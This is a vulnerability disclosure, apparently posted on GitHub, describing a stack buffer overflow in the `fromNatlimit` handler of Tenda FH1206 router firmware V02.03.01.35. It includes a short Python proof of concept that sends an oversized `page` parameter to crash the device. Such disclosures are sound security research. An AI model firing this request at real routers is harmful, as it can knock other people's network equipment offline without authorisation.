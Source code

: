 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromNatlimit` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v4, "lan_controllist.asp?page=%s", v2);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v4` array, thus triggering this security vulnerability.

![image-20240802202621283](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802202621283.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/Natlimit"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)